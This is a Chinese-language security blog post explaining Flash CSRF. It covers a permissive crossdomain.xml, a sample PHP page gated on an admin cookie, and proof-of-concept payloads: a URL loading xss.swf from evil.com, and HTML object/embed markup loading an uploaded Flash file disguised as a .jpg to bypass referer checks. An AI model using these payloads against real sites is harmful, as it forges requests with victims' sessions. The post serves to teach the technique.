


也来聊聊 Flash CSRF
update 2014/06/04
这篇文章里面的技巧非常 Nice~
http://blog.detectify.com/post/86298380233/the-pitfalls-of-allowing-file-uploads-on-your-website
看到 ping0s 在 FB 上放出了关于 Flash CSRF 的一些东西，也来聊一聊，just share.
Flash CSRF 通常是由于 crossdomain.xml 配置不当造成的，利用方法是使用 swf 文件跨域发起请求。当 crossdomain.xml 配置得当时，我们也可以从目标站点发起伪造请求。
crossdomain.xml 配置不当时直接请求
<?xml version="1.0"?>
<cross-domain-policy>
<allow-access-from domain="*" />
</cross-domain-policy>
上面的 crossdomain.xml 文件配置允任何域的 Flash 对本域发起 HTTP 请求，危害非常大。
hi.php:
<?php
if ($_COOKIE['user']=='admin') {
echo "hi, admin.";
}
else {
echo "you need to login.";
}
?>
POC：http://evil.com/xss.swf?a=get&c=http://localhost/hi.php Firebug 下可以看到，我们成功继承浏览器会话，请求了 localhost 域的 hi.php

crossdomain.xml 配置正确，从本域 Flash 发起请求
重新配置crossdomain.xml，限制允许 localhost 域的 Flash 请求。
<?xml version="1.0"?>
<cross-domain-policy>
<allow-access-from domain="localhost" />
</cross-domain-policy>
这时我们可以向目标站点上传 Flash 文件，通过 HTML 中的 object 和 embed 标签引用上传的 Flash 发起请求(注意，我们上传的文件不一定是 swf 后缀，和 script 标签类似，不一定要求是 js 后缀。)。POC:
<html>
<head>
<title>FlashCSRF POC</title>
</head>
<body>
<object classid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000" codebase="http://fpdownload.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=7,0,0,0" width="500" height="500" id="FlashVars" align="middle"/>
<paramname="allowScriptAccess" value="always"/>
<paramname="movie" value="http://localhost/xss.jpg" />
<paramname="FlashVars" value="a=get&c=http://localhost/hi.php"/>
<paramname="quality" value="high" />
<embed src="http://localhost/xss.jpg" quality="high" bgcolor="#ffffff" width="500" height="500" name="FlashVars" align="middle" allowScriptAccess="always" FlashVars="a=get&c=http://localhost/hi.php" type="application/x-shockwave-flash" pluginspage="http://www.macromedia.com/go/getflashplayer"/>
</object/>
</body>
</html>

这里的 object 标签内嵌 embed 标签是为了兼容大多数浏览器。通过 Flash 从本域发起的请求可以绕过一些限制，如 referer 等。
References：